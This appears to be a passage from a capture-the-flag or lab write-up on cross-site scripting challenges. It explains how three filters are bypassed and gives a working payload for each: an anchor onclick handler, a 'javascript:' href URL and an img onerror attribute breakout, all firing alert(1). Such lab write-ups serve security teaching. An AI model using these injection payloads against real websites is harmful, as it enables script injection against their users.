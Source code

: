 ```html
<h2>[variable]</h2>
```

 *Note: Script tags are automatically filtered with Element.innerHTML.* 
 
 Instead of using script tags (`<script>alert(1)</script>`), you can use additional tags with event handlers such as an anchor tag with a onclick event handler, which will alert when the link is clicked. `<a href=# onclick=alert(1)>click</a>`

```html
<h2><a href=# onclick=alert(1)>click</a></h2>
```

## Challenge 2
The context of challenge 2 is the variable is inside the `href` attribute in an `a` tag surrounded by double quotes.

```html
<a href="[variable]">Click Me</a>
```

Double quotes and angles brackets are filtered. Since you are unable to break out of the double quotes context, however you can turn the link URL into a JavaScript function (`javascript:alert(1)`) which will alert when the link is clicked. 

```html
<a href="javascript:alert(1)">Click Me</a
```
	
## Challenge 3
The context of challenge 3 is the variable is inside the `src` attribute in an `img` tag (`<img src="[variable]"> `) surrounded by double quotes. Only angle brackets are filtered. Because double quotes are not filtered you can break out of the double quote context and add an event handler `"x" onerror="alert(1)` which will alert on an image error.

```html
<img src="x" onerror="alert(1)"
```
